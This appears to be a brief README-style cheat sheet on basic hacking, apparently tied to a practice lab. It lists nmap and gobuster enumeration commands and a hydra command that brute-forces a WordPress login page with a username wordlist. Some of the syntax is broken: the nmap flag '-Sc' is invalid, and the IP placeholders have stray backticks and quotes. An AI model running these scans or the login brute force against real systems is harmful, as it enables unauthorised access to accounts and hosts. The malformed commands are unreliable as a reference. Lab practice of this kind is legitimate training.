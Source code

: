 ##We are going to do basic of Hacking

#Enumeration
1. nmap -Sc -sV <`ip address>
2. nmap -sT <'ip address>
3. nmap -sP <'ip address>

#Enumeration
1. gobuster dir -u <`ip address> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

BruteForcing

1. hydra -L fsocity.txt -p mypassword 192.168.10.100 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username"